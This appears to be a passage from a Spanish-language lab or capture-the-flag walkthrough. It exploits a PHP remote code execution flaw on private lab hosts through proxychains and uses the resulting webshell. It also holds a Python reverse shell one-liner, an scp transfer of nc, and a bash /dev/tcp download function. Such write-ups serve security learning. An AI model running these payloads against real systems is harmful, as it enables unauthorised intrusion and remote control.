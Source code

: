 ```shell
proxychains python3 exploit.py --url http://192.168.254.3/index.php
[*] Target seems vulnerable (QSL:1754/HVL:220): PHPSESSID=8921b7654ffccd4dc1e725396469f5a0; path=/
[*] RCE successfully exploited!

    You should be able to run commands using:
    curl http://192.168.254.3/index.php?a=bin/ls+/
```
```shell
❯ proxychains curl -s "http://192.168.254.3/index.php?a=bin/ls+/" | awk "/' - /,/: cannot/" | grep -v "cannot" | sed "s/' -//"
|S-chain|-<>-127.0.0.1:1080-<><>-192.168.254.3:80-<><>-OK
 bin
boot
dev
entry.sh
etc
home
lib
lib64
media
mnt
opt
php-src
proc
root
run
sbin
srv
sys
tmp
usr
var
```
Teniendo la webshell procedemos a tratar de entablarnos una conexión a nuestra máquina. Por lo visto el host donde se ejecuta nuestra webshell no tiene conexión a nuestra máquina pero sí al host del sitio web donde tenemos conexión por ssh. Procedemos a descargar el binario de nc a esa máquina.

```shell
❯ scp -i id_rsa ../scripts/nc www-data@172.20.0.10:/tmp
```
Después de varios intentos llegamos conectarnos a nuestra máquian con este comando.

```shell
curl -s -G -X GET "http://localhost:81/index.php?a=/usr/bin/python3.6+-c+'import+socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.254.2\",4343));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(\[\"/bin/sh\",\"-i\"\]);'"
```
Procedemos a enumerar la máquina pero como no tenemos curl o wget podemos crear un script donde simule un curl. Con esto lo pegamos en nuestra terminal y usando la función curl ya podremos realizar la descarga del pspy que ya lo tiene la máquina del sitio web.

```shell
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
```
